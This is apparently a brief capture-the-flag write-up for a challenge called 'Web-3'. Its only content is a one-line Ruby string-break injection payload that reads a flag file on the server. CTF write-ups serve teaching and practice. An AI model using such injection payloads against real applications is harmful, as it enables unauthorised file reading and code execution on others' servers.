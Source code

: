 # Web-3 Solution

Use this payload to read the flag:
```ruby
" + File.open("flag_ea268bad72a.txt").read + "
```
